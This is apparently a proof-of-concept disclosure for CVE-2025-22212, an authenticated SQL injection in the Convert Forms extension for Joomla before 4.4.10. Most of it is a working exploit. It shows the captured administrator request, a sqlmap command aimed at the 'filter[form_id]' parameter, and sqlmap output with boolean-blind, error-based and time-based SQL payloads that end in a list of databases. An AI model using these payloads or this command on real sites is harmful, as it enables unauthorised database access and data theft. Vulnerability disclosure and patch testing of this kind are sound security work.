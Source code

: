 # CVE-2025-22212: SQL injection in Convert Forms for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22212

**Convert Forms:** https://extensions.joomla.org/extension/convert-forms/

## Introduction
An authenticated (administrator) SQL injection (SQLi) vulnerability exists in the Convert Forms extension for Joomla, affecting all versions prior to 4.4.10. The vulnerability is exploitable via the 'filter[form_id]' parameter in the Appointment Contact form.

## POC
To exploit this vulnerability, go to 'Convert Forms >> Submissions >> Select Form >> Appointment Form (Unpublished Form) (1) >> search = test', click "search" and save the request in Burp Suite (req.txt).

![Alt text](6.png)

**HTTP Request:**
```
POST /administrator/index.php?option=com_convertforms&view=conversions HTTP/1.1
Host: localhost:8080
Content-Length: 550
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_convertforms&view=conversions
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; c746293156f560164ea71d168e5eb505=185f350a58725560d05ead66c402b552
Connection: keep-alive

filter%5Bsearch%5D=test&list%5Bfullordering%5D=a.id+DESC&list%5Blimit%5D=20&filter%5Bform_id%5D=1&filter%5Bperiod%5D=today&filter%5Bcreated_from%5D=&filter%5Bcreated_to%5D=&filter%5Bstate%5D=1&filter%5Bcolumns%5D%5B%5D=id&filter%5Bcolumns%5D%5B%5D=created&filter%5Bcolumns%5D%5B%5D=param_name&filter%5Bcolumns%5D%5B%5D=param_phone&filter%5Bcolumns%5D%5B%5D=param_email&filter%5Bcolumns%5D%5B%5D=param_comments&filter%5Bcolumns%5D%5B%5D=user_id&filter%5Bcolumns%5D%5B%5D=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p 'filter[form_id]'
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter[form_id] (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=(SELECT (CASE WHEN (2790=2790) THEN 1 ELSE (SELECT 7529 UNION SELECT 2507) END))&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND GTID_SUBSET(CONCAT(0x7176787871,(SELECT (ELT(4243=4243,1))),0x7178707671),4243)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND (SELECT 2967 FROM (SELECT(SLEEP(5)))daVE)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
